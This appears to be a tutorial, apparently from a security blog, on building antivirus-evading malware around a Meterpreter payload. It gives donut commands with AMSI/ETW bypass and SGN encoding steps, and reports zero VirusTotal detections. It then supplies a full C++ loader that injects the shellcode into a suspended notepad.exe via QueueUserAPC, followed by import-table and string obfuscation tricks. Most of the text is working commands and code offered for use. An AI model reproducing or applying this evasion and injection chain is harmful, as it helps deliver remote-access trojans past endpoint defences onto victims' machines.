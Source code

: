 ## Table of Contents

- [**Outline**](#section-0)
- [**EXEtoShellCode**](#section-1)
- [**Shellcode Encoding**](#section-2)
- [**ShellCode Loader**](#section-3)
- [**Payload Obfuscation**](#section-4)
- [**IAT Obfuscation**](#section-5)
- [**Conclusion**](#section-6)




## Outline  {#section-0}



video width="640" height="480" controls>
  <source src="/assets/AV/MSI_Final.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

## Creating MSI Malware {#section-0}

## Executable to Shell Code
We will convert meterpreter EXE to shellcode using donut.


https://github.com/TheWover/donut

This Donut command loads piggy.exe into memory with:
1) no entropy obfuscation (-e)
2) uses AMSI/WLDP/ETW bypass with a fail-safe option to continue if bypass fails (-b)
3) compresses the file using the aPLib engine (-z 2), and employs a decoy module at 
level 5 (-j 5) for added obfuscation and evasion.

```bash
./donut -i /home/kali/donut/piggy.exe -e 1 -b 3 -z -j 5
```

![](/assets/AV/donutImage.png)  

However, as expected the shellcode.bin when uploaded to virus total  has a large detection rate

![](/assets/AV/loaderVirus.png)  

## Polymorphic Shellcode Encoding (Shiginakatai)
While there are many shell code encryption and encoding methods such as XOR, AES, UUID, IPV4 obfuscation, some libraries and decryption functions are flagged by antivirus solutions such as AES decryption routine.
Here we will use a simple yet effective encoding  to obfuscate our payload, SGN encoding. “SGN is a polymorphic binary encoder for offensive security purposes such as generating statically undetectable binary payloads”.  It is the upgraded version of the famous shikata_ga_nai.rb used in metasploit.


https://github.com/EgeBalci/sgn
Now we will conduct shellcode obfuscation. -i is used for the input file (the meterpreter rat shellcode) and -o is the output. -a is for the architecture and -c is the number of encoding 
![](/assets/AV/sgn.png)  


```bash
sgn -i '/home/kali/donut/loader.bin' -o /home/kali/donut/loaderEncrypted.bin -a 64 -c 8 --verbose
```

The advantage of SGN is that during run time it will un-encode itself thereby the testers do not have to implement the un-encoding function. Testers need to simply load the obfuscated payload bin to their code.

Uploading the shellcode we get a 0 detection rate.
![](/assets/AV/zero.png)  


The advantage of SGN is that during run time it will un-encode itself thereby the testers do not have to implement the un-encoding function. Testers need to simply load the obfuscated payload bin to their code.

## Creating APC Shellcode Loader
Creating a Shellcode Loader

Now that we have our encoded shellcode, we need to create a PE, exe file to launch this shellcode using c++.
VirtualAlloc: Allocates memory for the payload, typically using MEM_COMMIT and PAGE_READWRITE to allow writing to the allocated memory.
RtlMoveMemory: Copies the payload (malicious code) from the file or buffer into the newly allocated memory region.
VirtualProtect: Changes the protection of the allocated memory from PAGE_READWRITE to PAGE_EXECUTE_READ to allow the payload to execute.
CreateThread: Starts a new thread, executing the payload in memory. This is the method used to run the injected code.
WaitForSingleObject: Pauses the current thread until the thread running the payload finishes execution, ensuring the payload completes.
QueueUserAPC: This function queues an Asynchronous Procedure Call (APC) to a specific thread. If used with a thread in an alertable state (such as one created with SleepEx or WaitForSingleObjectEx), the payload will be executed when the thread enters that state. This technique is commonly used to inject code into a thread in a less obvious manner, bypassing some common defenses.

```bash
#include <windows.h>
#include <windows.h>
#include <stdio.h>

// Function to read a binary file
unsigned char* readBinaryFile(const char* fileName, SIZE_T* size) {
    FILE* file = fopen(fileName, "rb");
    if (!file) {
        printf("Could not open file %s\n", fileName);
        return NULL;
    }

    fseek(file, 0, SEEK_END);
    *size = ftell(file);
    fseek(file, 0, SEEK_SET);

    unsigned char* buffer = (unsigned char*)malloc(*size);
    if (!buffer) {
        printf("Memory allocation failed\n");
        fclose(file);
        return NULL;
    }

    fread(buffer, 1, *size, file);
    fclose(file);
    return buffer;
}

int main() {
    // Read shellcode from the binary file (e.g., loaderEncrypted.bin)
    const char* fileName = "loaderEncrypted.bin";
    SIZE_T shellcodeSize;
    unsigned char* shellcode = readBinaryFile(fileName, &shellcodeSize);
    
    if (!shellcode) {
        printf("Failed to read the binary file.\n");
        return -1;
    }

    // Create a suspended Notepad process
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi = { 0 };
    if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        printf("Failed to create process\n");
        free(shellcode);
        return -1;
    }

    // Allocate memory in the target process
    LPVOID bufferAddr = VirtualAllocEx(pi.hProcess, NULL, shellcodeSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!bufferAddr) {
        printf("VirtualAllocEx failed\n");
        free(shellcode);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        return -1;
    }

    // Write the shellcode into the allocated memory
    if (!WriteProcessMemory(pi.hProcess, bufferAddr, shellcode, shellcodeSize, NULL)) {
        printf("WriteProcessMemory failed\n");
        free(shellcode);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        return -1;
    }

    // Queue the APC for the shellcode to be executed
    QueueUserAPC((PAPCFUNC)bufferAddr, pi.hThread, NULL);

    // Resume the suspended thread to execute the shellcode
    ResumeThread(pi.hThread);

    // Cleanup
    free(shellcode);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return 0;
}


```
## IAT Obfuscation

One thing to note is that using the above WIN32 API directly, such as VirtualAllocEX, QueueUserAPC and etc will be likely flagged as suspicious. We can verify this by checking the Import Address Table by  utilizing a tool called PE Studio

 ![](/assets/AV/PE.png)  
Dynamic Function Resolution: GetProcAddress is used to dynamically resolve the addresses of the required functions 

```bash

HMODULE hKernel32 = GetModuleHandle("kernel32.dll");

LPVOID (WINAPI * pVirtualAllocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
pVirtualAllocEx = (LPVOID (WINAPI *)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD)) GetProcAddress(hKernel32, "VirtualAllocEx");

```

If we do not want to do this manually, we can use built in importers.
```bash
https://github.com/JustasMasiulis/lazy_importer
```
Download the lazy_importer.hpp and save it in a folder called include. 
Simply add LI_FN() to the function.

We can further implement a custom GetProcAddress to hide its WINAPI Function call but this time we leave it out. 


## String Obfuscation
Let's take the following code snippet for example, where we create a notepad process for future shell code injection.
```bash
strings.exe -n 8 implant.exe | findstr /i "C:\\windows"
```
 ![](/assets/AV/string.png)  
